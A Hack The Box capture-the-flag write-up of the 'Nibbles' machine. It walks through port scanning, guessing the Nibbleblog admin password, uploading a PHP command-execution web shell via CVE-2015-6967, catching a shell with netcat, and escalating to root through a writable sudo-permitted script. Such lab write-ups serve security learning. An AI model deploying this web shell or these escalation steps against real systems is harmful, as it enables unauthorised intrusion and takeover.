








---
tags:
  - hack
  - linux
---
# HTB: [Nibbles](https://app.hackthebox.com/machines/Nibbles)

> [!tip]- Summary with Spoilers
> - This machine was running Nibbleblog version `v4.0.3`, which was vulnerable to an authenticated file upload vulnerability (`CVE-2015-6967`).
> - I exploited the vulnerability to upload a malicious PHP shell and gained initial access as `nibbler`.
> - Privilege escalation was achieved via a `sudo` misconfiguration, allowing the execution of the `monitor.sh` script as `root`.

## Enumerate

```console
$ nmap -nv -sCV -T4 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-20 11:54 CST
[...]
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.79 seconds

```

The web page mentions something called "nibbleblog" in the HTML comments:



The `/nibbleblog/` URL:



The login page is available at `http://10.10.10.75/nibbleblog/admin.php`. I tried brute-forcing the password for the `admin` user but this happens after a few attempts:



My IP even shows up here:



And then I guessed the password, which was… `nibbles`:



## Exploit

The version of Nibbleblog is v4.0.3, as verified by this README file:



That means the software is vulnerable to an arbitrary file upload per CVE-2015-6967. There's [a PoC available](https://github.com/dix0nym/CVE-2015-6967).

I prepare the following payload:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

And trigger the exploit:

```console
$ python3 ./exploit.py --url http://${t}/nibbleblog/ --username admin --password nibbles --payload ~/shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```

It works:



Reverse shell:



```console

$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 33576
$ cd /home/nibbler
cd /home/nibbler
$ cat user.txt
cat user.txt
b8b4a7[...]
```

## Escalate

User `nibbler` has `sudo` for a script called `monitor.sh`:

```console
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo sh > personal/stuff/monitor.sh
echo sh > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x personal/stuff/monitor.sh
chmod +x personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
078111[...]
```

## Summary

The target is running an unpatched version of its blogging software that includes an authenticated arbitrary file upload vulnerability. The exploit requires valid credentials, but the password was easy to guess. Privilege escalation was simple do to a `sudoers` entry pointing to a file that was writeable by the user, allowing execution of `sh` as the root user.
